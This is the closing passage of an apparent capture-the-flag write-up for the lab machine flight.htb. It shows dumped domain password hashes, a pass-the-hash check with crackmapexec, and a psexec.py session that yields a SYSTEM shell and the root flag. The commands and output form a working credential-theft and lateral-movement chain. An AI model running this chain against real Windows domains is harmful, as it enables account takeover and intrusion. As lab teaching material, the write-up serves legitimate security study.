    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6a2b6ce4d7121e112aeacbc6bd499a7f:::
    S.Moon:1602:aad3b435b51404eeaad3b435b51404ee:f36b6972be65bc4eaa6983b5e9f1728f:::
    R.Cold:1603:aad3b435b51404eeaad3b435b51404ee:5607f6eafc91b3506c622f70e7a77ce0:::
    G.Lors:1604:aad3b435b51404eeaad3b435b51404ee:affa4975fc1019229a90067f1ff4af8d:::
    L.Kein:1605:aad3b435b51404eeaad3b435b51404ee:4345fc90cb60ef29363a5f38e24413d5:::
    ...[snip]...
    

### Shell

Those hashes work for a pass the hash attack:

    
    
    oxdf@hacky$ crackmapexec smb flight.htb -u administrator -H aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c
    SMB         flight.htb      445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
    SMB         flight.htb      445    G0               [+] flight.htb\administrator:aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c (Pwn3d!)
    

It shows `Pwn3d!` because the creds are good and this is an administrator
account.

`psexec.py` works to get a shell from here:

    
    
    oxdf@hacky$ rlwrap -cAr psexec.py administrator@flight.htb -hashes aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c
    Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation
    
    [*] Requesting shares on flight.htb.....
    [*] Found writable share ADMIN$
    [*] Uploading file cohEYhfE.exe
    [*] Opening SVCManager on flight.htb.....
    [*] Creating service hhyK on flight.htb.....
    [*] Starting service hhyK.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.2989]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32> whoami
    nt authority\system
    

And the final flag:

    
    
    C:\Users\Administrator\Desktop> type root.txt
    74be1697************************
    

